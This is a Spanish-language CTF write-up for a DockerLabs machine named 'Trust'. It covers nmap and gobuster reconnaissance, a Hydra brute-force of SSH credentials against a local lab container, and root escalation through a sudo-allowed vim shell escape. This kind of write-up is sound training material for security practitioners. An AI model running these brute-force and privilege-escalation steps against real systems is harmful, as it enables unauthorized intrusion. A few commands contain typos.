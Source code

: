 
- Tags: #Trust 
---
- [Maquina Trust Docker Labs](https://mega.nz/file/wD9BgLDR#784mjg4xwoolyyKMqdGLk1_YntbJLItJ7RFRx9A69ZE) ==> Enlace de descarga a la maquina, Procedemos a descomprimir el archivo y procedemos a desplegar el laboratorio:
```bash
 sudo bash auto_deploy.sh trust.tar
```
---
- #### Fase Reconocimiento:
- Procedemos a lanzar una traza **ICMP** al **target** para determinar si tenemos comunicacion. Por el **ttl** podemos determinar que estamos anten una maquina linux, de igual manera lo comprobamos con nuestra herramiente: ( `wichSystem.py` )
```bash
ping -c 1 172.18.0.2

wichSystem.py 172.18.0.2
172.18.0.2 (ttl -> 64): Linux
```
---

- #### Fase Escaneo Puertos:
- Realizamos escaneo de puertos en el **target**
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.18.0.2 -oG allPorts    
```
---
- Realizaremos un escaneo exhautivo sobre los puerto descubiertos en el **target** para determinar los servicios y las versiones que corren detras de estos puertos.
```bash
 extractPorts allPorts

nmap -sC -sV -p22,80 172.18.0.2 -oN targeted
```
---
- **( 22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0) )** ==> Tenemos un servicio ssh expuesto, Es una version no a la actual pero no es vulnerable a una posible enumeracion de usuario con el exploit ya que contemplan versiones mas atrasadas.
```bash
searchsploit ssh user enumeration
```
---
- **(  80/tcp open  http    Apache httpd 2.4.57 ((Debian)) )** ==> Tenemos un servicio apache, Donde al pareces estamos ante una version de: **( ubuntuMantic )** que podemos verificar por el **codeName** en **Launcpad**
- Lanzamos el script ( `http-enum` ) de **nmap** pero no detectamos nada.
```bash
nmap --script http-enum 172.18.0.2 -oN webScan
```
---

- #### Fase Reconocimiento Web:
- Procedemos con la fase de reconocimiento web para detectar posibles falla de seguridad o vectores de ataques de los cuales nos podemos aprovecha.
- **( 172.18.0.2/secret.php/ )** ==> Tenemos esta que que solo nos muestra el nombre de un posible usuario: **( Mario )**
```bash
 whatweb http://172.18.0.2 # No detectamos informacion critica e igual wappalyzer no nos detecta mucha informacion relevante
http://172.18.0.2 [200 OK] Apache[2.4.57], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[172.18.0.2], Title[Apache2 Debian Default Page: It works]
```
---

- #### Fase Reconocimiento Rutas:
- Procedemos a realizar descubrimiento de rutas en el **target** con la herramienta ( `gobuster` )
```bash
gobuster dir -u http://172.18.0.2 -u /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash -o directoryScan
gobuster dir -u http://172.18.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,js,html,css,php.back,back,pl -o directoryScanExtensions  
gobuster vhost -u http://172.18.0.2/secret.php -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -t 20 --append-domain  
```
---
- No encontramos nada que nos indique un verctor de ataque.

- #### Fase Reconocimiento SSH:
- Procedemos a realizar un reconocimiento en el puerto 22 **ssh** que esta expuesto, Intentaremos obtener las credenciales de acceso de este posible usuario: **( mario )** que es el que detectamos desde la web
- **( Hydra )** ==> Usamos esta herramienta, para realizar un ataque de fuerza bruta con el diccionario: **( rockyou.txt )** de la siguiente manera:
```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt -t 4 ssh://172.18.0.2

[22][ssh] host: 172.18.0.2   login: mario   password: chocolate # Logramos obtener la password del usuario
```
---

- #### Intrusion Por SSH:
- Ahora nos intentaremos loguear por **ssh** con las credenciales que hemos obtenido.
```bash
ssh mario@172.18.0.2 # Despues proporcionamos la password
```
---
- Logramos loguearnos como este usuario:

- #### Reconocimiento SO y Escalada:
```bash
finc / -perm -4000 2>/dev/null # no encontramos nada critico
getcap -r / 2>/dev/null # no encontramos nada critico

sudo -l

User mario may run the following commands on 37b2a6b23afd:
    (ALL) /usr/bin/vim
```
---
- **( Vector Ataque )** ==> El permiso `(ALL) /usr/bin/vim` en el archivo `/etc/sudoers` permite al usuario **mario** ejecutar Vim con privilegios de root (`sudo vim`). Esto representa un **riesgo crítico de seguridad**, ya que Vim permite escape a una shell con privilegios elevados. Aquí está el análisis y explotación:
- [GTFObin Vim](https://gtfobins.github.io/gtfobins/vim/#shell) ==> Tenemos **oneLiner** que nos permitirias elevar privilegios de una **bash** como root.
```bash
# Paso 1: Mario ejecuta Vim como root
sudo /usr/bin/vim

# Paso 2: Dentro de Vim, abre una shell root
:!bash -p

# Paso 3: Ahora es root (¡sin contraseña!)
root@37b2a6b23afd:/# id
uid=0(root) gid=0(root) groups=0(root)
```
---
- Logramos elevar nuestro privilego a **root**. teniendo control total del sistema